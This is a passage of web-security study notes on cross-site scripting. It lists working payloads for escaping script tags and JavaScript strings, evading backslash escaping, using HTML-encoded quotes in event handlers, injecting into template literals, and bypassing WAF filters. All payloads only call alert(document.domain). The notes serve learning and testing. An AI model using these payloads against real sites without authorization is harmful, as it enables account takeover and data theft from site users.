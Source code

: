 ```html
<!-- Payload -->
</script><img src=1 onerror=alert(document.domain)>
```

***

**Breaking out of a JavaScript string**

* It's essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing

```javascript
'-alert(document.domain)-'
';alert(document.domain)//
```

* Some applications try to escape single quote characters with a backslash but often forget to escape the backslash itself.
  * `';alert(document.domain)//` is converted to `\';alert(document.domain)//`&#x20;
  * so your input could be `\';alert(document.domain)//` which gets converted to `\\';alert(document.domain)//`
* Making use of HTML-encoding
  * When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around input filters.
    * `<a href="#" onclick="... var input='controllable data here'; ...">`
    * `&apos;-alert(document.domain)-&apos;`
    * The browser HTML-decodes the value of the onclick attribute before the JavaScript is interpreted
    * HTML encode: https://html.spec.whatwg.org/multipage/named-characters.html

{{< hint style=notes >}}
**Note**: you cannot use `&quot;` -> `"` to close onclick attribute. Remember: The browser HTML-decode the value of the onlick attribute but not the entire structure
{{< /hint >}}

* XSS in JavaScript template literals
  * JavaScript template literals are string literals that allow embedded JavaScript expressions (Template literals are encapsulated in backticks)

```html
<script>
...
var input = `controllable data here`;
...
</script>
${alert(document.domain)}
```

## Bypass WAF

If you receive an error like "tag is not allowed" or "event is not allowed", use XSS cheat sheet ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) to discover a tag and event that work.

## Exploitation
